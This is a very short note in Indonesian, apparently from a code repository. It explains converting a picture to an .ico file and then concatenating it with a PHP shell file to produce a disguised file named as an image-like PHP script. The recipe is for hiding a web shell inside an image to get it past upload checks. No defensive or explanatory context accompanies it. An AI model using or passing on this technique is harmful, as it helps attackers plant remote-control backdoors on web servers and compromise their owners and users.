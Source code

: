# ubah file jpg/png ke ico
```https://cloudconvert.com/jpg-to-ico)```
# petintah
```cat namafoto.ico namashell.php > shellpjpg.php ```
